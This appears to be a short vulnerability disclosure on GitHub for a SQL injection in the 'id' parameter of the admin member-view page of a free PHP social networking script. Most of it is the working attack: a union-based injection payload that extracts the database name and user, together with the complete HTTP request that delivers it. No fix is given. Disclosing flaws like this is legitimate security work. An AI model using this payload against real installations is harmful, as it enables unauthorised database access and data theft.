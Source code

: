 # simple-social-networking-site-instagram v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15311/simple-social-networking-site-instagram-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /sns/admin/members/view_member.php

Vulnerability location: /sns/admin/members/view_member.php, id

[+] Payload: id=3'+union+select+1,2,3,4,(select+database()),6,7,8,9,10,(select+user())--+ // Leak place ---> id

Tested on Windows 10, XAMPP

```
GET /sns/admin/members/view_member.php?id=3'+union+select+1,2,3,4,(select+database()),6,7,8,9,10,(select+user())--+ HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://192.168.2.106/sns/admin/?page=members
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe


```

![](https://github.com/mikeccltt/sns_bug_report/blob/main/simple-social-networking-site-instagram/sql.gif?raw=true)

